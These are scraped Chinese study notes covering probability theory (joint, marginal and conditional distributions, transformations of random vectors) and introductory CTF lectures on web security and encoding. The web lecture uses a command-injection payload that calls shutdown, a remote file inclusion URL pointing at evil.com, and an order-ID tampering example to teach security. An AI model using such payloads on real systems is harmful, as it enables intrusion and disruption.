令 $$ p_{\xi}(u) = \int_{-\infty}^{\infty} p(u,v) dv $$ 则 $$ F_{\xi}(x) = \int_{-\infty}^x p_{\xi}(u) du $$
因此 \(p_{\xi}(u)\) 就是 \(\xi\) 的密度函数，同理，\(\eta\) 的密度函数为 $$ p_{\eta}(v) = \int_{-\infty}^{\infty} p(u,v) du $$
随机向量的独立性¶
Note
如果离散型随机向量 \((\xi, \eta)\) 的联合分布列满足 $$ P(\xi = x_i, \eta = y_j) = P(\xi = x_i) P(\eta = y_j) ,\quad i,j = 1,2,\cdots $$ 则称 \(\xi\) 和 \(\eta\) 是相互独立的，否则称 \(\xi\) 和 \(\eta\) 是相依（或相关）的
上式也可以写成 $$ p_{ij} = p_{i\cdot} p_{\cdot j} $$
设 \(p(x,y)\)，\(p_{\xi}(x)\) 和 \(p_{\eta}(y)\) 分别是连续型随机向量 \((\xi, \eta)\) 的联合分布函数及其边际分布函数，则 \(\xi\) 和 \(\eta\) 相互独立的充要条件是对任意 \(x,y\) 有 $$ p(x,y) = p_{\xi}(x) p_{\eta}(y) $$
对于任意类型的随机变量 \(\xi\) 和 \(\eta\)，它们相互独立意味着它们的联合分布可以分解为各自的边际分布的乘积，即 $$ F(x,y) = F_{\xi}(x) F_{\eta}(y) $$
类似地，我们也可以把上面的几个式子推广到 \(n\) 维随机向量的情况：
- 随机变量 \(\xi_1, \xi_2, \cdots, \xi_n\) 相互独立的充要条件是对一切一维波雷尔点集 \(B_1, B_2, \cdots, B_n\) 有 $$ P(\xi_1 \in B_1, \cdots, \xi_n \in B_n) = P(\xi_1 \in B_1) \cdots P(\xi_n \in B_n) $$
- \(n\) 维随机向量 \(\boldsymbol{\xi}\) 与 \(m\) 维随机向量 \(\boldsymbol{\eta}\) 相互独立被定义为 $$ P(\boldsymbol{\xi} \in A, \boldsymbol{\eta} \in B) = P(\boldsymbol{\xi} \in A) P(\boldsymbol{\eta} \in B) $$ 其中 \(A,B\) 分别是任意的 \(n\) 维和 \(m\) 维波雷尔点集
- 若随机变量 \(\boldsymbol{\xi}\) 和 \(\boldsymbol{\eta}\) 相互独立，那么它们各自的子向量也相互独立
条件分布¶
离散型¶
我们称 $$ P(\eta = y_j | \xi = x_i) = \dfrac{P(\xi = x_i, \eta = y_j)}{P(\xi = x_i)} = \dfrac{p_{ij}}{p_{i\cdot}}, \quad j=1,2,\cdots $$ 为在 \(\xi = x_i\) 的条件下，\(\eta\) 的条件概率分布列，简称为条件分布，记为 \(p_{\eta | \xi}(y_j | x_i)\)。称 $$ P(\eta \leqslant y_j | \xi = x_i) = \sum_{j:y_j \leqslant y}^{j} p_{\eta | \xi}(y_j | x_i) $$ 为在 \(\xi = x_i\) 的条件下，\(\eta\) 的条件分布函数，记为 \(F_{\eta | \xi}(y | x_i)\)
连续型¶
设随机向量 \((\xi, \eta)\) 的联合密度函数为 \(p(x,y)\)，\(\xi\) 有边际密度函数 \(p_{\xi}(x) = \int_{-\infty}^{\infty} p(x,y) dy\)。若在 \(x\) 处，\(p_{\xi}(x) > 0\)，则称 $$ P(\eta \leqslant y | \xi = x) = \int_{-\infty}{y} \dfrac{p(x,y)}{p_{\xi}(x)} dv, \quad y \in \mathbb{R} $$ 为在 \(\xi = x\) 的条件下，\(\eta\) 的条件分布函数，记为 \(F_{\eta | \xi}(y | x)\)。称 $$ p_{\eta | \xi}(y | x) = \dfrac{p(x,y)}{p_{\xi}(x)} $$ 为在 \(\xi = x\) 的条件下，\(\eta\) 的条件密度函数
同理，我们也有 $$ p_{\xi | \eta}(x | y) = \dfrac{p(x,y)}{p_{\eta}(y)}, \quad x \in \mathbb{R} $$
Tip
由条件密度公式可得 $$ p(x,y) = p_{\xi | \eta}(x | y) p_{\eta}(y) $$ 从而 $$ p_{\eta | \xi}(y | x) = \dfrac{p_{\xi | \eta}(x | y) p_{\eta}(y) }{\int_{-\infty}^{\infty}p_{\xi | \eta}(x | v) p_{\eta}(v) dv } $$
这可以看作贝叶斯公式的连续型形式
一般情况¶
对于一般的随机变量 \((\xi, \eta)\)，对于给定的 \(x\)，我们称下面的极限为在 \(\xi = x\) 的条件下，\(\eta\) 的条件分布函数
这里要求对于任意的 \(y \in \mathbb{R}\) 上面的极限都存在。
全概率公式的连续形式
其中 \(g(x) = P(A | X = x)\) 就是 \(A\) 在 \(X = x\) 的条件概率密度函数
随机变量的函数¶
波雷尔函数
设 \(g(x)\) 是一维实函数，\(\mathcal{B}\) 是 \(\mathbb{R}\) 上的波雷尔 \(\sigma\)-域。若对于任意 \(B \in \mathcal{B}\)，有
即波雷尔集的原相集也是波雷尔集，则称 \(g(x)\) 是一维波雷尔函数。
我们也可以上面的定义推广到 \(n\) 维。
对于一个函数 \(f\) 和 \(Y = f(X)\)，如果 \(X\) 是随机变量，我们希望 \(Y\) 也是一个随机变量，就要满足 \(f\) 是一个波雷尔函数。对于一维的情况，我们通常有以下两种方式来计算 \(Y\) 的分布：
-
\(X\) 是离散型：此时 \(Y\) 也是离散型随机变量。我们可以根据 \(X\) 的取值和分布列来得到 \(Y\) 的取值，进而得到 \(Y\) 的分布列
\[ P(Y = y_j) = P(f(X) = y_j) = P(X = x_i) = p_i \] -
\(X\) 是连续型：此时 \(Y\) 不一定是连续型随机变量，并不存在一个统一的计算公式。
但是我们通常可以先求出 \(Y\) 的分布函数 \(F_Y(y)\)，然后再求导得到 \(Y\) 的密度函数 \(p_Y(y)\)
Theorem
假设 \(f(x)\) 严格单调，其反函数 \(f^{-1}(x)\) 有连续导函数，则 \(\eta = f(\xi)\) 也是连续型随机变量，其密度函数为
Lemma
假设 \(y = f(x)\) 在不相重叠的区间 \(I_1, I_2, \cdots\) 上逐段严格单调，且 \(I_i, i=1,2,\cdots\) 之和为 \((-\infty, \infty)\)，在各段的反函数 \(h_1(y), h_2(y),\cdots\) 有连续导数，则 \(\eta = f(\xi)\) 是连续型随机变量，其密度为
上面这个引理告诉我们，如果 \(f(x)\) 在不相重叠的区间上逐段严格单调，那么我们可以将 \(f(x)\) 的密度函数分段求和得到 \(g(y)\) 的密度函数。下面来看一个简单的例子。
Example
设 \(\xi \sim N(0,1)\)，求 \(\eta = \xi^2\) 的密度函数
解： \(y=x^2\) 是分段单调的，它的反函数为：
- 当 \(x \in I_1 = (-\infty, 0)\) 时，\(x = h_1(y) = -\sqrt{y}\)
- 当 \(x \in I_2 = (0, \infty)\) 时，\(x = h_2(y) = \sqrt{y}\)
它们的值域都是 \(y > 0\)，故对于\(y > 0\)，有
当 \(y \leqslant 0\) 时，\(g_{\eta}(y) = 0\)
这个分布被称为卡方分布，记作 \(\eta \sim \chi^2(1)\)
随机向量的函数¶
假设 \((\xi_1,\xi_2,\cdots,\xi_i)\) 是连续型随机向量，具有联合密度函数 \(p(x_1,x_2,\cdots,x_i)\)，令 \(\eta = f(\xi_1,\xi_2,\cdots,\xi_i)\) 则 \(\eta\) 的分布函数可以由以下公式得到
下面我们来讨论一下常见的并且值得注意的例子
Example
我们仅考虑 \(\xi_1\) 和 \(\xi_2\) 是连续型随机变量的情况
作变量代换 \(x_2 = z - x_1\)，再交换积分次序，得
这说明 \(\eta\) 是连续型随机变量，密度函数为 $$ p_{\eta}(y) = \int_{-\infty}^{\infty} p(x,y-x)dx $$
特别地，当 \(\xi_1\) 和 \(\xi_2\) 相互独立时，各自有密度函数 \(p_1(x)\) 和 \(p_2(x)\)时，\(\eta\) 的密度函数为 $$ p_{\eta}(y) = \int_{-\infty}^{\infty} p_1(x)p_2(y-x)dx = \int_{-\infty}^{\infty} p_1(y-x)p_2(x)dx $$ 这个式子称为卷积公式
相应地，\(\eta=\xi_1 - \xi_2\) 得密度函数为 $$ p_{\eta}(y) = \int_{-\infty}^{\infty} p_1(x)p_2(y+x)dx $$ 需要注意的是，这里被积分部分的两个式子不能交换
分布函数为
密度函数为
当 \(\xi_1\) 和 \(\xi_2\) 相互独立时，密度函数为 $$ p_{\eta}(z) = \int_{-\infty}^{\infty} \frac{1}{|x|} p_1(x)p_2\left(\frac{z}{x}\right) \, dx $$
分布函数为
令 \(x_1 = z x_2\) 并交换积分次序，得
这说明若 \((\xi_1, \xi_2)\) 是连续型随机向量，则 $ \eta = \frac{\xi_1}{\xi_2} $ 是连续型随机变量，其密度函数为
设 $ \xi_1, \xi_2, \dots, \xi_n $ 独立同分布，分布函数都为 $F(x) $。把 $ \xi_1, \xi_2, \dots, \xi_n$ 每取一组值 \(\xi_1(\omega), \xi_2(\omega), \dots, \xi_n(\omega) (\omega \in \Omega)\) 都按大小次序排列，所得随机变量 \(\xi_1^*, \xi_2^*, \dots, \xi_n^*\) 称为 \(\xi_1, \xi_2, \dots, \xi_n\) 的次序统计量，它们满足 \(\xi_1^* \leqslant \xi_2^* \leqslant \dots \leqslant \xi_n^*\)。
按定义，\(\xi_1^* = \min(\xi_1, \xi_2, \dots, \xi_n)\)，\(\xi_n^* = \max(\xi_1, \xi_2, \dots, \xi_n)\)
现在我们来求 \(\xi_1^*, \, \xi_n^*\) 及 \((\xi_1^*,\xi_n^*)\) 的分布，这在数理统计中是有用的。
-
\(\xi_n^*\) 的分布函数
\[ \begin{aligned} P(\xi_n^* \leqslant x) &= P(\xi_1 \leqslant x, \xi_2 \leqslant x, \cdots, \xi_n \leqslant x) \\ &= P(\xi_1 \leqslant x) P(\xi_2 \leqslant x) \cdots P(\xi_n \leqslant x) \\ &= [F(x)]^n \end{aligned} \] -
\(\xi_1^*\) 的分布函数
首先考虑 \(\{ \xi_1^* \leqslant x \}\) 的逆事件 \(\{ \xi_1^* > x \}\)，即 \(\xi_1, \xi_2, \dots, \xi_n\) 中至少有一个大于 \(x\)，则
\[ \begin{aligned} P(\xi_1^* > x) &= P(\xi_1 > x, \xi_2 > x, \cdots, \xi_n > x) \\ &= P(\xi_1 > x) P(\xi_2 > x) \cdots P(\xi_n > x) \\ &= [1 - F(x)]^n \end{aligned} \]从而 $$ P(\xi_1^ \leqslant x) = 1 - P(\xi_1^ > x) = 1 - [1 - F(x)]^n $$
-
\((\xi_1^*,\xi_n^*)\) 的联合分布函数
\[ \begin{aligned} F(x,y) &= P(\xi_1^* \leqslant x, \xi_n^* \leqslant y) \\ &= P(\xi_n^* \leqslant y) - P(\xi_1^* > x, \xi_n^* \leqslant y) \\ &= [F(y)]^n - P\Big(\bigcap_{i=1}^n (x < \xi_i < y)\Big) \end{aligned} \]因此当 \(x < y\) 时 $$ F(x,y) = [F(y)]^n - [F(y) - F(x)]^n $$ 当 \(x \geqslant y\) 时 $$ F(x,y) = [F(y)]^n $$
如果 \(\xi_1, \cdots, \xi_n\) 是连续型随机变量，有密度 \(p(x) = F'(x)\)，则上面各随机变量（向量）也是连续型的，可将各分布函数求导以得到密度函数
Tip
上面的从负无穷积分到正无穷的写法只是形式上的，实际上的积分区域要根据密度函数的具体取值来判断
随机向量的变换¶
我们仅考虑连续型随机向量的变换。
假设 \((X,Y)\) 为连续型随机向量，具有联合密度函数 \(p_{(X,Y)}(x,y)\)。变换如下：
我们要求 \((U,V)\) 的分布。基本方法为
其中 \(D{uv} = \{ (x,y) : f_1(x,y) \leqslant u, f_2(x,y) \leqslant v \}\)
如果 \(f_1\) 和 \(f_2\) 存在逆变换 \(g_1\) 和 \(g_2\)，则有
进一步假设 \(g_1\) 和 \(g_2\) 可导，可得到 Jacobi 行列式
那么 \((U,V)\) 是连续型随机变量，具有联合密度函数 \(p_{(U,V)}(u,v)\)，有 $$ P(U \leqslant u', V \leqslant v') = \int_{(u,v):u \leqslant u', v \leqslant v'} p(g_1(u,v), g_2(u,v)) |J| \, dudv $$
即 $$ p_{(U,V)}(u,v) = p(g_1(u,v), g_2(u,v)) \, |J| $$
Tip
关键的思路在于首先把 \(x,y\) 使用 \(u,v\) 表示，然后再乘上从 \(u,v\) 转变到 \(x,y\) 的 Jacobi 行列式
我们也可以把上面二维的情况推广到 \(n\) 维。
\(n\) 维随即向量的变换
设 \((\xi_1, \cdots, \xi_n)\) 的密度函数为 \(p(x_1, \cdots, x_n)\)，现有 \(m\) 个函数：\(\eta_1 = f_1(x_1, \cdots, x_n), \cdots, \eta_m = f_m(x_1, \cdots, x_n)\)，则 \((\eta_1, \cdots, \eta_m)\) 也是随机向量。
除了各边际分布之外，我们要求联合分布，联合分布函数为
这里 \(D\) 是 \(n\) 维区域：\(D = \{ (x_1, \cdots, x_n) : f_1(x_1, \cdots, x_n) \leqslant y_1, \cdots, f_m(x_1, \cdots, x_n) \leqslant y_m \}\)
如果 \(m = n, f_j, j = 1, \ldots, n\) 有唯一的反函数组: \(x_i = x_i(y_1, \ldots, y_n), i = 1, \ldots, n\), 且
则 \((\eta_1, \ldots, \eta_n)\) 是连续型随机变量. 当 \((y_1, \ldots, y_n) \in (f_1, \ldots, f_n)\) 的值域时，其密度为
在其他情况下 \(q(y_1, \ldots, y_n) = 0\)
Example
\(\xi, \eta\) 相互独立，并且都服从参数为1的指数分布，求 \(\alpha = \xi + \eta, \beta = \xi / \eta\) 的联合密度函数，并分别求出 \(\alpha, \beta\) 的边际密度函数
解：由题意可知 \(\xi, \eta\) 的联合密度为：当 \(x > 0\) 且 \(y > 0\) 时 $$ p(x,y) = e^{-(x+y)} $$ 其他情况密度函数为0
函数组 \(\begin{cases} u = x + y \\ v = x / y \end{cases}\) 的反函数组为 \(\begin{cases} x = \dfrac{uv}{1+v} \\\\ y = \dfrac{u}{1+v} \end{cases}\)，
当 \(x,y > 0\)，\(u,v > 0\) 时，容易计算
故 $$ |J| = \dfrac{u}{(1+u)^2} $$
于是 \((\alpha, \beta)\) 的联合密度函数为
编辑密度分别为
并且 \(\alpha, \beta\) 相互独立
Abstract
上面这个例子告诉我们：
- 要判断随机变量的几个函数是否独立，可用随机变量变换求得它们的联合分布，再用独立性的各种必要条件来判断
- 要求随机变量的一个函数的分布，有时可作适当补充，先求它们的联合分布，而后要求的函数的分布则作为其边际分布
如果我们只知道 \(\alpha = \xi + \eta\)，并且要求它的分布，我们可以将其补全为 \((\alpha,\beta) = (\xi + \eta, \eta)\)，再计算 \((\alpha,\beta)\) 的联合分布，最后求出 \(\alpha\) 的边际分布。可以发现最后得到的结果与上面的例子是一样的
¶
约 0 个字 预计阅读时间不到 1 分钟
约 0 个字 预计阅读时间不到 1 分钟
Ended: 概率论
Ended: 数理
CTF ↵
安全攻防实践¶
约 109 个字 预计阅读时间不到 1 分钟
拼搏14天，我要成为CTF大神。(?
分数组成
- 考勤 5%
- 基础周 55%
- lab0 5%
- 5个方向的lab1 10% \(\times\) 5
- 专题周 40%
- 5个方向 5选2 每个方向2个lab，每个占10%
- 少量bonus：考勤 / 基础周 / 专题周 三个部分相互独立，不互相溢出
作业做出来就有分数，轻轻松松拿高分，真得选吧😤
基础周 ↵
Lec1-CTF入门¶
约 24 个字 预计阅读时间不到 1 分钟
授课：常瑞、王鹤翔(TonyCrane)
如何学习CTF¶
Lec2-Web¶
约 3996 个字 53 行代码 4 张图片 预计阅读时间 17 分钟
授课：叶耀阳
Web应用架构：客户端+服务端¶
桌面应用和Web应用在架构上有显著的区别。桌面应用通常是在本地运行的独立程序，而Web应用则需要依赖客户端和服务端的协作。
- 客户端：你的浏览器
- 可视化：图形、图片、布局…… HTML + CSS
- 人机交互逻辑：按钮点击，登录，发送请求……JS
- 缓存、Cookie
- 安全：不能将私密的、不该获取的信息传出去（比如 Cookie），不能为所欲为（比如注销其他网站的账号）
- 服务端：某台或很多台服务器
- 认证与鉴权：如何证明你是你
- Authentication（认证）：知道你是谁
- Authorization（鉴权）：确认你有何权限
- 处理请求：用户需要做什么？将结果返回客户端
- 服务器也可以有不同分工：前端后端、数据库……
- 安全：用户不能获得不该获取的信息（比如 flag），不能为所欲为（比如任意代码执行 RCE）
- 认证与鉴权：如何证明你是你
网络：数据交换¶
数据包的传输与路由¶
想象一下，数据包就像是一封封信件，而网络则是遍布全球的邮政系统。当我们在电脑上点击发送邮件时，数据被切割成一个个小包裹，即数据包。这些数据包随后被送往最近的邮局，也就是路由器。路由器就像邮局的分拣员，根据包裹上的地址（即IP地址），决定将它们送往下一个邮局，直至最终到达目的地。这个过程中，每个路由器都会查看数据包的目的地，并选择最佳路径，确保数据包能够快速、准确地到达。
域名与DNS系统¶
在网络的世界里，IP地址就像是门牌号码，虽然精确，但记忆起来却颇为困难。这时，域名系统（DNS）就如同一个智能的电话簿，将复杂的IP地址转化为易于记忆的域名，比如www.example.com。当你在浏览器中输入一个域名时，DNS服务器会像查电话簿一样，找到对应的IP地址，并指引你的请求到达正确的服务器。
OSI模型和TCP/IP模型¶
正如我们写代码层层封装，计算机网络的总体架构也是分层的。这样每个层各司其职，下层上上层的基础设施，逐渐构建复杂的功能。
- OSI 七层模型

- TCP/IP 四层模型：广泛使用

TCP/IP 协议详解¶
- IP: 网络层 = 主机到主机，数据包寻址（快递公司）
-
TCP: 传输层 = 应用到应用，或者说端到端（菜鸟驿站）
无边界的字节流，类比电报报文，电报的格式是应用层协议该做的，电报本身只发字母数字
HTTP 协议详解（Hyper Text Transfer Protocol）¶
- 应用层，基于TCP
- 特点：无状态（需要应用层自行维护），纯文本
- 需要维持状态（比如：用户已登录）怎么办？Cookie
- 格式

DNS记录¶
- A记录：指向 IPv4 地址
- AAAA记录：指向 IPv6 地址
- CNAME记录：别名，指向另一个域名
- 其他的还有 TXT（纯文本），NS（Name Server），MX，SOA...
常用命令¶
\(\texttt{whois}\)¶
- 查询域名的注册信息：持有人等
\(\texttt{nslookup}\)¶
- 查看DNS工作记录
\(\texttt{tracert/traceroute}\)¶
- 跟着那个每一条所需时间
- 原理：ICMP报文
代理 PROXY¶
正向代理¶
- VPN：Virtual Private Network
- 使其看起来就像在内网
反向代理¶
- 隐藏真实 IP，部署 CDN，部署防火墙
- 内网穿透：内网穿透到外面来
后端：业务逻辑¶
后端是Web应用的核心，它负责处理业务逻辑、数据存储和安全。在这一部分，我们会介绍常见的后端技术栈，并重点讨论后端安全，尤其是如何防范和应对CTF（Capture the Flag）中常见的逻辑漏洞攻击。
- 常见后端技术栈（如Node.js、PHP、Python、Ruby、Go、Rust 等）
- 后端安全：永远不要相信用户的数据，一切前端的过滤都等于没有过滤！
-
CTF: 通过逻辑漏洞等欺骗后端
逻辑漏洞：
if money!=0 then money-=price.What ifmoney=-1?没接触安全领域前关于安全的错觉：
- 这么蠢的洞也有人写？
- 这么写怎么可能有洞？
- 这么多人用怎么可能有洞？
事实：连SSH今年都还能有高危漏洞 CVE-2024-6387
注入：混淆了数据和代码。
例如printf("%d", _____)
正常输入：1 2 3
恶意输入：1); system("shutdown -s -t 0"); //
就变成了printf("%d", 1); system("shutdown -s -t 0"); //)
PHP¶
PHP是最早的Web开发语言之一，它在Web开发历史上占有重要地位。
早年只有静态网页，而后来有了jsp和php
- 环境配置：PHP Study
- 变量定义
- 短标签
<?=$a?>
例子
获取 GET 参数与 Cookie 并查询数据库对应的用户：
例子
SQL¶
- 发音 \(\texttt{S-Q-L}\) 或 \(\texttt{Sequel}\)
- 结构化查询语言 \(\texttt{Structured Query Language}\)
-
用来做什么？
数据库维护应用的数据，而与数据库交互的接口往往是基于 SQL 语句的
常用操作¶
增 Create
- CREATE TABLE users (...);
- INSERT INTO users VALUES (1, 'hello', 'pwd', true);
删 Delete
- DELETE FROM users WHERE id=1;
改 Update
- UPDATE users SET username='aaa' WHERE id=1;
查 Retrieve/Read
- SELECT version();
- SELECT avg(score) FROM students GROUP BY name;
- SELECT * FROM students;
安全相关话题¶
Cookie 与 Session¶
- Cookie：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
- 示例：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
- Cookie劫持：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
- Session：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
- 示例：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
- 如果服务器被攻破，Session中就可能有一些敏感信息。
逻辑漏洞¶
验证不充分、想当然的写法、条件竞争、未发现的旁门左道...
- 程序员的傲慢可能会让他认为a==1&&a==2 一定是 false 但...

任意文件读与任意代码执行¶
- 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
- CTF竞赛中，能读服务器上
/flag则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
文件包含¶
例如一个Web应用允许用户通过URL参数指定要包含的文件，如index.php?page=about。攻击者可以通过构造恶意URL，如index.php?page=http://evil.com/malicious.php，包含远程恶意文件，从而执行恶意代码。
越权¶
例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如order.php?id=123，查看其他用户的订单信息。
- 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会。
前端：可视化与操作逻辑¶
前端开发主要关注用户界面的设计和用户交互。在这一部分，我们将学习HTML、CSS和JavaScript的基础知识，以及前端安全的重要性和常见的防护措施。同时，我们会通过经典案例分析前端漏洞的利用方法和防护策略。
HTML / CSS / JS基础¶
HTML¶
- 格式：各个标签嵌套的层级结构，每个标签基本上就对应页面上的一个元素
Html例子
CSS¶
- 用途：元素宽度、外部间隔、内部边距、字体颜色……
- 选择器语法：选择你要把这些属性应用给哪些元素
- 元素选择器
body - 类选择器
.my-class - ID选择器
#myid
- 元素选择器
Css例子
JS(JavaScript)¶
- 包裹在
<script>中 - 可以做什么：嵌入网页中，让网页具备高级的交互逻辑
- 现代用途更广：各种框架，用于后端
Javascript例子
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 | |
编码基础：JavaScript 与 TypeScript¶
JavaScript¶
JavaScript 简介与历史
JavaScript（简称JS）是由Netscape公司的Brendan Eich在1995年十天内开发出来的一种脚本语言。最初设计用于浏览器端的动态网页内容生成，JavaScript迅速成为Web开发的核心技术之一，与HTML和CSS并列为前端开发的三大支柱。
- 诞生背景：JavaScript诞生于Web 1.0时代，最初被称为Mocha，后改名为LiveScript，最后才成为JavaScript。
- 发展历程：从最初的客户端脚本语言，JavaScript逐步演变成一门强大的编程语言，现今不仅用于浏览器端，还在服务器端广泛应用。
JavaScript的基本语法和特点
JavaScript语法灵活，具有动态类型、函数式编程和原型继承等特点。
-
变量声明：使用
var、let和const声明变量。 -
函数定义：
-
条件判断：
-
循环：
-
事件处理：
JavaScript灵活性很强，但这也带来了某些潜在问题，比如类型不安全、代码维护性差等。
TypeScript¶
TypeScript的特点和优点
TypeScript（简称TS）是由微软开发的一种开源编程语言，是JavaScript的超集，增加了静态类型和类等特性。
-
静态类型：通过类型检查减少运行时错误，提高代码的可维护性。
-
类和接口：支持面向对象编程，增强代码结构性。
-
模块化：支持模块化编程，提高代码复用性和组织性。
TypeScript在现代Web开发中的应用
TypeScript在大型项目中尤为受欢迎，例如Angular、Vue 3和React等前端框架都支持或推荐使用TypeScript。TypeScript通过类型检查和IDE支持（如VS Code），大大提高了开发效率和代码质量。
Node.js简介¶
Node.js的起源和发展
Node.js是由Ryan Dahl在2009年开发的一个开源、跨平台的JavaScript运行时环境，基于Chrome的V8引擎构建。Node.js的出现使得JavaScript可以用于服务器端开发。
- 起源：Node.js诞生于对高性能、非阻塞I/O模型的需求。
- 发展：Node.js迅速发展，成为构建高性能、可扩展网络应用的首选平台。
Node.js的基本使用方法与应用场景
Node.js通过事件驱动、非阻塞I/O模型，使其在处理大量并发请求时具有显著优势。
-
基本使用：
-
应用场景：Node.js常用于构建实时应用（如聊天应用）、API服务、微服务架构等。
相关安全话题¶
- XSS（跨站脚本攻击）
- CSRF（跨站请求伪造）与 SSRF（服务器端请求伪造）
- 跨域
尾声¶
经典老番：地址栏输入网址并访问后发生了什么
- DNS解析（域名解析）：
- 浏览器会首先检查本地缓存中是否有该网址对应的IP地址。
- 如果没有，它会向DNS服务器发送请求，查询该网址的IP地址。
- DNS服务器返回该网址对应的IP地址给浏览器。
- 建立TCP连接：
- 浏览器使用前面得到的IP地址，通过TCP/IP协议与目标服务器建立连接。
- 这包括三次握手过程：客户端发送SYN包，服务器返回SYN-ACK包，客户端再发送ACK包确认连接。
- 发送HTTP请求：
- 建立连接后，浏览器会发送一个HTTP请求到服务器。这个请求包含了请求方法（如GET或POST）、请求的资源路径以及一些头信息（如浏览器类型、可接受的文件类型等）。
- 服务器处理请求并返回响应：
- 服务器接收到请求后，会处理该请求，查找请求的资源（如HTML文件、图片、视频等）。
- 服务器会将找到的资源以及一些头信息（如内容类型、内容长度等）打包成HTTP响应，返回给浏览器。
- 浏览器接收响应并渲染页面：
- 浏览器接收到服务器返回的HTTP响应后，会解析响应的头信息和内容。
- 如果内容是HTML文件，浏览器会解析HTML并根据其中的指令（如加载CSS文件、执行JavaScript脚本等）进行渲染。
- 浏览器会逐步构建DOM树和CSSOM树，并根据它们生成渲染树，最后将内容绘制到屏幕上。
- 加载资源：
- 如果HTML文件中包含了其他资源（如图片、CSS、JavaScript等），浏览器会根据需要发送额外的HTTP请求来加载这些资源。
- 这些资源加载完成后，浏览器会继续渲染页面，更新显示内容。
整个过程通常在短时间内完成，以确保用户能够快速看到网页内容。
Lec3-Misc¶
约 1802 个字 3 张图片 预计阅读时间 7 分钟
授课：郑俊达(Gooduck)
什么是Misc¶
- Miscellaneous，即杂项，包含了一些不属于其他类别的题目
- MISC = ALL - PWN - WEB - CRYPTO- REVERSE
Misc题型¶
- 隐写、取证、OSINT（信息搜集）、PPC（编程类） ——传统misc题
- 游戏类题目、工具运用类题目
- 编解码、古典密码 ——不那么crypto的crypto
- 网络解谜、网站代码审计 ——不那么web的web
- 代码审计、沙箱逃逸 ——不那么binary的binary
- Blockchain、IoT、AI ——新兴类别题目
如何学习misc？¶
- 用于尝试学习新东西，许多题目需要快速入门/快速上手新工具
- 思维活跃，大胆尝试
- 一定的编程能力
- 熟练掌握Python或其他一门语言
- 多做题
基础编解码知识¶
三种常见的01串转换方式
常用编解码工具：CyberChef /（TonyCrane ver.）
字符编码¶
- 字符编码：人类理解的字符 $ \iff $ 计算机理解的01串 之间的映射
- 出现乱码：用一种字符编码规则解读另一种字符编码的01串
常见的字符编码：
- ASCII：一共 128 个项，即每个字符可以用一个7位的01串表示（或一字节）
- 00-1F：制字符；20-7E：可见字符；7F：控制字符（DEL）
- Latin-1（ISO-8859-1）：扩展了 ASCII，一共 256 个项
- 80-9F：控制字符；A0-FF：可见字符
- 特点：任何字节流都可以用其解码
- 利用Unicode 字符集的一系列编码
- UTF-8 / UTF-16 / UTF-32 / UCS
- 中国国标字符集系列编码8
- GB 2312 / GBK / GB 18030-202
Unicode字符集与UTF编码¶
参考：TonyCrane的笔记
以平面划分，有17个平面，每个平面65536个码位（2字节）
- 通过码位可以表示为U+0000 ~ U+10FFFF
- 可容纳111w+个字符，现有14w+字符（超过一半为CJK字符）
UCS（Universal Character Set）：Unicode字符集的标准名称
- UCS-2：2字节表示码位；UCS-4：4字节表示码位
UTF（Unicode Transformation Format）：Unicode字符集的编码方式
- UTF-8：变长编码，1~4字节表示一个字符，兼容ASCII
- 1字节：0xxxxxxx；
- 2字节：110xxxxx 10xxxxxx；
- 3字节：1110xxxx 10xxxxxx 10xxxxxx；
- 4字节：11110xxx 10xxxxxx 10xxxxxx 10xxxxxx
- ASCII字符：1字节；常用字符：2字节；其他字符：3字节或4字节
- UTF-16：2字节或4字节表示一个字符，不兼容ASCII
- BMP（基本多文种平面）：2字节表示；SMP（补充多文种平面）：4字节表示
出现乱码原因¶
几个字符集不兼容的部分互相编解码
- 用 GBK 解码 UTF-8 编码的文本
- 用 UTF-8 解码 GBK 编码的文本
- 用 latin-1 解码 UTF-8 编码的文本
- 用 latin-1 解码 GBK 编码的文本
- 先用 GBK 解码 UTF-8 编码的文本，再用 UTF-8 解码前面的结果
- 先用 UTF-8 解码 GBK 编码的文本，再用 GBK 解码前面的结果

摩尔斯电码(Morse Code)¶
字符 $ \iff $ 字符
- 摩尔斯电码：一种用点（·）和划（-）（时间长短）表示字符
- 点·：1单位；划-：3单位
- 点划之间间隔：1单位；字符之间间隔：3单位；单词之间间隔：7单位
- 字符集：A-Z、0-9、标点符号等（. : , ; ? = ' / ! - _ " ( ) $ & @ +）
- 表示中文：电码表（一个汉字对应四个数字），数字使用短码发送
Base系列编码¶
01串 $ \iff $ 字符，Base家族的结果都可以转为可见字符
- Base16：16进制编码表示字节流
- Base32：5bit一组（0-31），按照字符表（A-Z、2-7）映射
- 最终长度必须是5的倍数，不足的用=补齐（明显特征）
- Base64：6bit一组（0-63），按照字符表映射
- 标准字符表：A-Z a-z 0-9 + /
- 另有多种常用字符表，如URL安全字符表：A-Z a-z 0-9 - _
- 最终长度必须是4的倍数，不足的用=补齐（1~2个，明显特征）

Base-n系列编码的本质：字节流 \(\rightarrow\) 整数 \(\rightarrow\) n进制 \(\rightarrow\) 系数查表
除了16/32/64进制外，还有一些其他的Base编码：
- Base85：4字节整数 \(\rightarrow\) 85进制 \(\rightarrow\) 5个系数
